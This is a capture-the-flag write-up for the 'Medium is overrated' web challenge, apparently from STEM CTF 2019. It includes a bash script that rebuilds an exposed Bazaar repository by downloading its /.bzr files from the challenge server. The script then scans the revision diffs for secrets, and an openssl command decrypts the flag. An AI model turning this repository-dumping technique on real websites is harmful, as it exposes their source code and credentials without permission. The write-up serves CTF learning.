 # STEM CTF Cyber Challenge 2019 – Medium is overrated

* **Category:** Web
* **Points:** 200

## Challenge

> I got hacked last time, but that’s not gonna stop me. The world deserves the next great blogging platform!
> 
> http://138.247.13.104

## Solution

Challenge is similar to the previous one (i.e. *My First Blog*), but the number of revisions is huge.

So a [bash script](bzr-chall-solver.sh) can be written to reproduce the repository locally.

The script will recreate the `index.php` file of the previous challenge and another file called `noIdeaWhatImDoing`.

Analyzing the history situation with `bzr log` and some `bzr diff`, you can discover that files were modified several times. Maybe one of these revisions will contain the flag.

After some analysis you can discover that changes on `index.php` are the ones really important. The initial script can be modified in order to discover all important differences on `index.php`.

```bash
#!/bin/bash

echo "[*] Creating local repository."
mkdir ctf-bzr
cd ctf-bzr/
bzr init
echo 'foo' > foo.txt
bzr add
bzr commit -m "foo"
rm foo.txt

echo "[*] Replacing last-revision file."
cd .bzr/branch
rm last-revision
wget http://138.247.13.104/.bzr/branch/last-revision

echo "[*] Replacing dirstate file."
cd ../checkout
rm dirstate
wget http://138.247.13.104/.bzr/checkout/dirstate

echo "[*] Replacing pack-names file."
cd ../repository
rm pack-names
wget http://138.247.13.104/.bzr/repository/pack-names


echo "[*] Using check command to discover missing files."
cd indices/
rm *.cix
rm *.iix
rm *.rix
rm *.six
rm *.tix
cd ../packs
rm *.pack
cd ../../../
while true; do
   CHECK_OUTPUT=$(bzr check 2>&1)
   if [[ $CHECK_OUTPUT == *"bzr: ERROR: No such file:"* ]]; then
      MISSING_FILE=$(echo $CHECK_OUTPUT | sed 's/.*\([0-9a-f]\{32\}\).*/\1/')
      echo "[*] Missing files $MISSING_FILE."
      declare -a EXTENSIONS=("cix" "iix" "rix" "six" "tix")
      for EXTENSION in "${EXTENSIONS[@]}"; do
         TARGET_URL="http://138.247.13.104/.bzr/repository/indices/$MISSING_FILE.$EXTENSION"
         echo "[*] Downloading $TARGET_URL"
         wget $TARGET_URL -P .bzr/repository/indices/
      done
      TARGET_URL="http://138.247.13.104/.bzr/repository/packs/$MISSING_FILE.pack"
      echo "[*] Downloading $TARGET_URL"
      wget $TARGET_URL -P .bzr/repository/packs/
   else
      echo "[*] Probably all missing files have been downloaded."
      break
   fi
done

echo "[*] Reverting missing source files."
bzr revert

echo "[*] Searching the flag into revisions."
R=1
while true; do
   RNEXT=$((R+1))
   
   # Analyzing diff.
   REVISION=$(bzr diff -r$R..$RNEXT)
   if [[ $REVISION == "" ]]; then
      break
   elif [[ $REVISION != *"noIdeaWhatImDoing"* ]]; then
      echo "[*] ... $R -> $RNEXT"
      echo $REVISION
   fi

   R=$RNEXT
done
```

Two differences can be identified.

```
$ bzr diff -r154..155
=== modified file 'index.php'
--- index.php	2018-12-06 18:48:25 +0000
+++ index.php	2018-12-06 22:52:42 +0000
@@ -10,6 +10,11 @@
             <h1 class="display-4">My Blog</h1>
             <p class="lead">Just a spot for me to talk about how much I love Canonical</p>
         </div>
+            <h1>Encryption is so cool!</h1>
+            <p>It's so cool that I can paste a block of text here and if its encrypted then none of you will EVER be able to read it! After reading about it, I'm so comfortable with it that I'm willing to paste my Bitcoin Wallet password right here:</p>
+            <p>NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==</p>
+            <p>There's like a whole 3 Bitcoin in there, but none of you will ever be able to get it!</p>
+            <hr>
             <h1>I love Canonical</h1>
             <p>As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I've tried out</p>
             <ul>

$ bzr diff -r165..166
=== modified file 'index.php'
--- index.php	2018-12-06 22:54:52 +0000
+++ index.php	2018-12-06 23:00:02 +0000
@@ -10,6 +10,8 @@
             <h1 class="display-4">My Blog</h1>
             <p class="lead">Just a spot for me to talk about how much I love Canonical</p>
         </div>
+            <h1>CentOS is just RedHat</h1>
+            <p>A friend of mine was explaining how the company he works for pays for RedHat. I don't understand why they are LITERALLY throwing their money away since CentOS is just RedHat. In fact, CentOS is even better than RedHat since it discovers the fastest mirror automatically. I'm applying for one of their open job reqs just to give them a piece of my mind.</p>
             <h1>I love Canonical</h1>
             <p>As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I've tried out</p>
             <ul>
@@ -26,4 +28,5 @@
             ?>
         </div>
     </body>
-</html>
\ No newline at end of file
+</html>
+<!-- 6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077 -->
\ No newline at end of file
```

The first one contains a base64 encoded password for a Bitcoin wallet.

```
NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==
```

Decoded string is the following.

```
5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751
```

The second one contains an hexadecimal string.

```
6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077
```

This string must be considered like the AES ECB key to decode the Bitcoin wallet password.

The following OpenSSL command will give you the flag.

```
$ openssl enc -d -aes-256-ecb -K '6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077' -in <(echo '5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751' | xxd -r -p)
```

The flag is the following.

```
MCA{I$love$bitcoin$so$much!}
```